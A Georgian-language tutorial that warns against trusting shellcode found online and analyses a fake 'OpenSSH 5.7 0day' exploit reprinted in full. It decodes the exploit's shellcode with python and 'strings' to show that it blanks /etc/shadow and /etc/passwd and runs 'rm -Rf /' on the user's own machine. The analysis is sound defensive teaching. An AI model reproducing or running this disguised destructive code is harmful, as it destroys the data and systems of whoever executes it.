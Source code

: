 ალბათ გაგიგიათ რომ ინტერნეტში ნაპოვნ შელკოდს არ უნდა ენდოთ და უნდა შეამოწმოთ იგი რას აკეთებს სინამდვილეში თორე დაზარალებული შენ დარჩები, მაგალითად შელკოდი თავდასხმას სხვა კომპიუტერზე კი არ გაანხორციელებს არამედ ლოკალურ კომპიუტერში და გაშვებს შელს, წაშლის ფაილებს ან სზვა.

შელკოდი არის კოდი რომლის ინექცია ხდება კომპიუტერის მეხსიერებაში, გაშვებული პოგრამის სივრცეში რომ ეს კოდი იმ პროგრამის უფლებებისდაგვარად გაიშვას და ისარგებლოს ნების დართვით. კოდის ინექცია ხდება მაგალითად buffer overflow-ს ექსპლუატაციის მეშვეობით. 

მაგალითად 2011 წლის 26 იანვარს ვიღაც Chroniccommand-მა დაიბრალა OpenSSH-ის ექსპლოიტის შექმნა და სხვებისთვის დადო http://pastebin.com/sg77hWrg. უნდა ვენდოთ თუ არა ამ ექსპლოიტს?

```
/*
openSSH 5.7 0day exploit
Off by One error in auth2-pubkey.c
Author: Chroniccommand
Usage: ./exploit <host> <ip>
greetz to _st4ck3d*, x3n0n, xin etc you know who you are
*/
#include <stdio.h>
#include <netdb.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

void usage(char *argv[])
{
  printf("Usage: %s <target> <port>\n", argv[0]);
  exit(1);
}

unsigned char shellcode[] =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x39\x00\x00\x00\x65"
"\x63\x68\x6f\x20\x22\x22\x20\x3e\x20\x2f\x65\x74\x63\x2f\x73"
"\x68\x61\x64\x6f\x77\x20\x3b\x20\x65\x63\x68\x6f\x20\x22\x22"
"\x20\x3e\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x20"
"\x3b\x20\x72\x6d\x20\x2d\x52\x66\x20\x2f\x00\x57\x53\x89\xe1"
"\xcd\x80";

int main(int argc, char *argv[])
{
  int uid = getuid();
  int port = 22, sock;
  struct hostent *host;
  struct sockaddr_in addr;

  if(uid !=0)
  {
    fprintf(stderr, "[!!]Error: You must be root\n");
    exit(1);
  }
  if(uid == 0)
  {
    printf("\t[+]Starting exploit..\n");
  }
  if(argc != 3)
       usage(argv);

  fprintf(stderr, "[!!]Exploit failed\n");
  (*(void(*)())shellcode)();
  exit(1);
  char payload[1024];
  memcpy(payload, &shellcode, sizeof(shellcode));
  if(connect(sock,(struct sockaddr*)&addr,sizeof(addr))==0)
  {
    printf("[+]Got shell\n");
    system("/bin/sh");
  }
  else if(connect(sock,(struct sockaddr*)&addr, sizeof(addr))==-1)
  {
    fprintf(stderr, "[!!]Exploit failed\n");
    exit(1);
  }
}
```

რომ შეამოწმოთ რას აკეთებს შელკოდი იუნიქსისნაირ სისტემაში ქენით ასე:

```
shell$ python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x39\x00\x00\x00\x65\x63\x68\x6f\x20\x22\x22\x20\x3e\x20\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x20\x3b\x20\x65\x63\x68\x6f\x20\x22\x22\x20\x3e\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x20\x3b\x20\x72\x6d\x20\x2d\x52\x66\x20\x2f\x00\x57\x53\x89\xe1\xcd\x80"' | strings
```

**დაკვირვება:** შეგიძლია python -c შეცვალო perl -e-თი თუ პერლის მოხმარება გსურს.

ეს ბრძანება იძლევა შემდგომ რეზულტატს:

```
Rfh-c
h/sh
h/bin
echo "" > /etc/shadow ; echo "" > /etc/passwd ; rm -Rf /
```

როგორც ვხედავთ ეს ტყუილი ექსპლოიტია, სინამდვილეში იგი ლოკალურ კომპიუტერში შლის ყოველივე პაპკას და ფაილს.
არ დაივიწყოთ ინტერნეტში ნაპოვნი შელკოდისთვის ანალიზირების ჩატარება!

**ყურადღება:** თუ შელკოდი პოლიმორფიულ ტექნიკას იყენებს რომ IDS-ებმა ვერ აღმოაჩინონ მისი მავნეულობა მისი ანალიზი უფრო რთულია და ეს მეთოდი ვერ გაჭრის.
